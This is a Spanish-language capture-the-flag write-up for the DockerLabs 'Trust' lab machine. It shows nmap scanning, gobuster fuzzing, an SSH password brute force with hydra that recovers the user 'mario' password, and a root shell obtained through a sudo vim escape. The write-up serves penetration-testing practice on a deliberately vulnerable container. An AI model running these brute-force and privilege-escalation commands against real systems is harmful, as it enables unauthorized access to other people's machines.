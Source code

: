 # Write Up Trust

**Dificultad:** Super fácil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Reconocimiento
Una vez conocemos la dirección ip, realizamos un escaneo general para descubrir los puertos abiertos de una forma sigilosa y rápida.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Así descubrimos que los puertos abiertos son el puerto ssh (puerto 22) y el puerto http (puerto 80). De esta manera, con la utilidad extract ports los copiamos en el clipboard y realizamos un reconocimiento de los puertos mas exhaustivo, para descubrir el servicio que se está corriendo en dichos puertos y sus respectivas versiones

```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```
## Explotación
Viendo que está corriendo un servicio web y el servicio ssh, lo primero que haremos será recolectar información de la página web, para posteriormente acceder por ssh. Para ello añadiremos una entrada a nuestro DNS local (/etc/hosts) con el nombre de la máquina (trust) y su ip.
```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Al acceder a la web vemos que es la web por defecto de Apache Server, y que no tiene mucha información, por lo que vamos a intentar listar todos los directorios de la web mediante un ataque de fuzzing con gobuster.

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

De esta manera vemos un directorio escondido llamado secret, con extension php, que al abrirlo muestra lo siguiente:

```
Hola Mario,

Esta web no se puede hackear.
```
![alt text](../.sources/Trust-secret.png)
Así que suponemos que un posible usuario puede ser Mario.
Como no tenemos mas información, lo único que podemos hacer (o al menos lo único que se me ocurre) es hacer un ataque de fuerza bruta sobre el puerto SSH (puerto 22) mediante *hydra*, para intentar obtener las credenciales de este posible usuario.

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

Y así obtenemos la contraseña *chocolate*.

## Escalada de privilegios
Una vez dentro, hacemos el tratamiento de terminal para poder operar con comodidad

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y ahora, vemos que está instalado el comando *sudo*, por lo que vemos que comandos podemos ejecutar como sudo.

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

Así que nos otorgamos una terminal como root y bingo!

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```
## Lecciones vistas
1. Escaneos con **nmap**
2. Fuzzing con **gobuster**
3. Ataque de fuerza bruta con **hydra**
4. Escalada de privilegios con **vim**